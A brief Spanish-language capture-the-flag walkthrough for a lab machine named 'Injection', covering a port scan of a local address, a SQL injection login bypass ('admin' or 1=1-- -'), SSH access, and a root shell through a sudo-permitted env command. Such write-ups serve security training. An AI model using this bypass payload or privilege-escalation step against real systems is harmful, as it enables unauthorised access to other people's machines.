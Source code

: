 Maquina: Injection
Autor: El Pinguino de Mario 
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

Accedemos a la web y encontramos un panel de login e intentamos explotarlo con una SQL Injection
User: admin' or 1=1-- -
Password: cualquier cosa
Conseguimos bypasearlo y conseguimos la contraseña de un usuario

ssh dylan@172.17.0.2

sudo -l
Vemos que podemos ejecutar env como el usuario root
sudo /usr/bin/env /bin/bash
whoami
